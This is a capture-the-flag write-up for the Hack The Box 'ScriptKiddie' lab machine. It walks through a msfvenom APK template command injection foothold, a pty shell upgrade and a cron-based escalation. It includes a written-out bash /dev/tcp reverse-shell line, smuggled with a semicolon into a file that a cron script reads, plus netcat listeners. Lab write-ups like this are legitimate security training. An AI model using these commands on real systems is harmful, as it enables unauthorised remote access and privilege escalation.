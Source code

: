 # ScriptKiddie
### Machine Maker(s): [0xdf](https://www.hackthebox.eu/home/users/profile/4935)

#### Info :
``` 
OS          : Linux
Difficulty  : Easy
Points      : 20
Release     : 06 Feb 2021
IP          : 10.10.10.226
```
---
### Enumeration

Scanning the ip address we find an open **SSH** port and a web-page hosted on port 5000         
![](images/nmap.png)

I tried running dirbuster in hopes of finding a directory for uploads of the template file but it was in vain.       

I checked the sourcecode couldn't find much of anything there, checked for filters in the input, checked for js files but none of them were linked in the sourcecode. 

After lurking in the Official forum for sometime they were talking about metasploit a lot but I didn't understand why. Then I read the payloads section again, it must be something related to template file upload and msfvenom, so i started googling.

### Foothold

I found a **command injection vulnerability** in msfvenom payload generator when using a crafted APK file as a Android payload template.

After looking up in different sites I found how to reproduce it in the Official Metasploit [repo](https://github.com/rapid7/metasploit-framework/pull/14331)

Following the instructions there I was able to generate an apk file using msfconsole.
![](images/poc.png)     
Fire up a netcat listener for the reverse shell      
```bash
$ nc -lvnp port
```
and enter your LHOST and upload your apk file onto the target site.

We got a reverse shell.         
Use this to get a python interactive shell
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Privilege Escalation                

After lurking around we find another user **pwn** who has a cronjob running so we try to get a horizontal privilege escalation.

The scanloser.sh file doesn't have write permissions for user kid **kid**.      
Looks like hackers is being run everytime scanlosers.sh runs so we try to write into that, **kid** has permissions to write into it.        

So we try to write a bash reverse shell.        
use the following command to echo the bash shell into hackers
```bash
echo "         ; /bin/bash -c 'bash -i >& /dev/tcp/ip_address/port 0>&1'  #" >> hackers
```
Don't forget to fire up another netcat listener for this as well.

We get the shell for the user pwn       
Let's check the user permissions for this user
```bash
$ sudo -l
```
We can run /opt/metasploit-framework-6.0.9/msfconsole without password as root

Lets fire up msfconsole and check the root.txt from there.
```bash
msf6 > cat /root/root.txt
```

Voila! We have the root flag.
